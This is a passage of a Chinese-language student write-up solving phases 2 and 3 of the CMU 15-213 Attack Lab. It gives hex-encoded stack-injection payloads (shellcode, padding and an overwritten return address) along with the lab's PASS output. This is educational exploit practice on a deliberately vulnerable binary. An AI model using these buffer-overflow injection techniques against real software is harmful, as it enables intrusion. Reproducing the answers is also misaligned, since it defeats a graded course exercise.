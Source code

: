 其中 $0x59b997fa 是cookie的值


最后注入的十六进制编码为:

```GAS
48 c7 c7 fa 97 b9 59  /* mov    $0x59b997fa,%rdi */
68 ec 17 40 00   	  /* pushq  $0x4017ec */
c3                    /* retq  */
30 30 30 30 30 30 30 30 30 30
30 30 30 30 30 30 30 30 30 30
30 30 30 30 30 30 30   
78 dc 61 55   /* address of injected code */


```

```shell

Cookie: 0x59b997fa
Type string:Touch2!: You called touch2(0x59b997fa)
Valid solution for level 2 with target ctarget
PASS: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:PASS:0xffffffff:ctarget:2:48 C7 C7 FA 97 B9 59 68 EC 17 40 00 C3 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 78 DC 61 55 

```



## phase 3 

传入的参数变成了一个字符串.  本以为没什么难度...
然而...发现没地方存储这个字符串.... 栈上所有的位置全都被破坏了orz...

怎么发现的呢... 可以用gdb watch $rsp

就会发现,从 0x5561dc78 到 0x5561dca0这0x28个位置中,根本找不到一段长度为9的连续空间让我存储这个字符串...

最后的办法是在插入的可执行代码中,将字符串通过指令放在0x5561dc78前的位置...

卡了三个小时...


因此这道题的关键就是,找到一个不会被破坏的栈上空间来存这个字符串...


最终答案为:

```GAS

30 31 32 
c7 44 24 c4 35 39 62 39      /* movl   $0x39623935,-0x3c(%rsp)       */
c7 44 24 c8 39 37 66 61      /* movl   $0x61663739,-0x38(%rsp)      */
c7 44 24 cc 00 00 00 00      /* movl   $0x0,-0x34(%rsp)      */
48 c7 c7 6c dc 61 55         /* mov    $0x5561dc6c,%rdi             */
68 fa 18 40 00   	           /* pushq  $0x4018fa                    */
c3                           /* retq                                */
7b dc 61 55



```shell

$ Cookie: 0x59b997fa
Type string:Touch3!: You called touch3("59b997fa")
Valid solution for level 3 with target ctarget
PASS: Would have posted the following:
```